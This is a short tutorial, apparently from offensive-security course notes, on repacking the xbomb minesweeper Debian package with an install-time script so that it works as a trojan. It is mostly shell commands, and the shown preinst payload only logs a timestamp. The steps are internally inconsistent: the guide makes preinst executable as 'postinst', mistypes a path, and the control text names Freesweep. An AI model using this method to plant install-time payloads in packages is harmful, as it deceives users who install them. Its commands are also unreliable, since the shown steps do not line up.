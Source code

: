 Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# MakeDEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
student@student:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
student@student:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of client at $(date)." >> /tmp/myntp.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
student@student:/tmp/evil/work/DEBIAN$ chmod 755 postinst
student@student:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.

student@student:/tmp/evil$ mv work.deb xbomb.deb
```
Now, we can copy xbomb.deb to home folder and double click for installation

In order to uninstall the .deb file
```bash
$ sudo dpkg -P xbomb
```
